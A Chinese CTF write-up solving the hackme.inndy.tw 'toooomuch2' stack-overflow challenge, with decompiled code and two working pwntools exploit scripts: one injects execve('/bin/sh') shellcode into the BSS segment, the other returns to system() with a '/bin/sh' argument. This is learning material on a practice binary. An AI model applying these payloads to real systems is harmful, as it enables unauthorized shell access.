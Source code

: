 ```yaml
---
title: hackme.inndy.tw toooomuch2 writeup
date: 2018-08-16 09:03:27
tags:
- CTF
- writeup
---
```


## 0x00 介绍
这一题很简单的栈溢出PWN题。作为入门选手，做的过程也有点小波折。  
题目地址[https://hackme.inndy.tw/](https://hackme.inndy.tw/)，有时需要FQ。
检查防护
```
[*] '/home/lin/wdoc/program-learn/ctf_learn/hackme.inndy.tw/pwn/tooomuch2/toooomuch'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
什么防护都没有。
拖到IDA里看下
<!--more-->
```
int toooomuch()
{
  int result; // eax@2
  char s; // [sp+0h] [bp-18h]@1

  printf("Give me your passcode: ");
  gets(&s);
  strcpy(passcode, &s);
  if ( check_passcode() )
    result = play_a_game();
  else
    result = puts("You are not allowed here!");
  return result;
}
```
这个是漏洞函数，可以看出漏洞输入点在gets(&s)函数调用。gets用来读入一个字符串，没有限制输入长度。s是位于bp-18h的位置，bp后面是之前bp的位置，通过看反汇编代码，可以看到有一个设置临时栈的动作。
```
push ebp
mov ebp, esp
```
栈如下：  
![img](images/wp1-1.png)  
当我们在输入时给s 018+8个a时，就能覆盖掉toooomuch函数的返回地址，此时会出现异常,core dump。
# 0x01 利用思路
没有防护+溢出。这里的利用方法可能有很多种，网上看到是将shellcode放到bss段，然后利用溢出，中转到bss段去执行shellcode。
```
from pwn import *

p = process('./toooomuch')
elf = ELF('./toooomuch')


shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

gets_addr = p32(elf.symbols['gets'])
bss_addr = p32(elf.bss())
payload = fit({0x18  + 0x4:[gets_addr, bss_addr, bss_addr]})
p.sendlineafter('your passcode: ', payload)
p.sendline(shellcode)
p.interactive()
```
执行流程是：
1. tooomuch返回到gets上，将gets的返回地址设置为bss_addr，因为没有限制NX，所以BSS段也是可执行的
2. 然后在gets执行时，将shellcode输入，此时shellcode就位于BSS段起始位置。
3. 之后gets返回，执行shellcode。
出题人的提示是,也是用shellcode。
```
nc hackme.inndy.tw 7702
Get a shell, please.
Tips: Buffer overflow, 0x8048560, shellcode
```

我自己的思路是利用代码中已经加载的system函数，调用它来获取shell。system需要一个输入/bin/sh字符串。通过gets时输入，整个利用exp如下
```
from pwn import *

p = process('./toooomuch')
elf = ELF('./toooomuch')


system = p32(elf.symbols['system'])
passcode = p32(elf.symbols['passcode'])
binsh = '/bin/sh &&'
payload = binsh + (0x18 + 4- len(binsh) ) * 'a' + system + passcode + passcode
p.sendlineafter('your passcode: ', payload)
p.interactive()
```
之所以在/bin/sh后加了&&，是为了截断输入。否则system会把后面的输入当成是/bin/sh的参数，当成了一个命令调用。整个流程比shellcode要简单
1. 拼接payload, /bin/sh && 加上一些填充字符'a', 后面是调用地址 + 返回地址 + 参数地址。这里利用了代码中将输入复制到了passcode变量，所以使用passcode作为输入参数。
2. 输入payload
3. 返回到system，传入参数是passcode。
4. get shell

## 0x02 总结
1. 一开按照自己的思路填充栈时，没有考虑到设置临时栈时push ebp的动作，返回地址没有正确覆盖，一直没有成功，后来通过gdb调试才意识到。
2. binsh的命令截断有很多姿势。/bin/sh;， 加分号也可以。
